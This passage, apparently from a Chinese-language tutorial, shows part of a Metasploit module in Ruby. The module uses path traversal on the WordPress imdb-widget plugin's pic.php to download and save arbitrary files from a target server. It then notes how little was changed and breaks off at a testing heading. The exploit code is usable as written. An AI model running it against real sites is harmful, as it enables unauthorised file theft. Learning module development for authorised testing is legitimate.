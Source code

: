 ```
      'method' => 'GET',
      'uri'    => normalize_uri(wordpress_url_plugins, 'imdb-widget', 'pic.php'),
      'vars_get' =>
        {
          'url' => "#{traversal}#{filename}"
        }
    })
    # 检查响应
    if res && res.code == 200 && res.body.length > 0
      # 文件不存在
      if res.body.include? 'No such file or directory' 
        print_error("#{peer} - Nothing was downloaded. No such file or directory: /#{filename}. Please change the DEPTH parameter.")
      # 文件读取权限问题
      elsif res.body.include? 'Permission denied'
        print_error("#{peer} - Nothing was downloaded. Permission denied: /#{filename}. Please change the DEPTH parameter.")
      else
        print_status('Downloading file...')
        print_line("\n#{res.body}")

        fname = datastore['FILEPATH']
        # 保存文件
        path = store_loot(
          'imdb-widget.file',
          'text/plain',
          ip,
          res.body,
          fname
        )

        print_good("#{peer} - File saved in: #{path}")
      end
    else
      print_error("#{peer} - Http Response Code is not 200 or Plugin is not vulnerable")
    end

  end

end

```

可以看到，改动的地方并不是很多。

因此我们并不需要弄懂所有的类和方法，也可以写出自己的module。

代码中发送http请求部分可以参考：[How to Send an HTTP Request Using HTTPClient](https://github.com/rapid7/metasploit-framework/wiki/How-to-Send-an-HTTP-Request-Using-HTTPClient)

0x04 测试Module
-------------
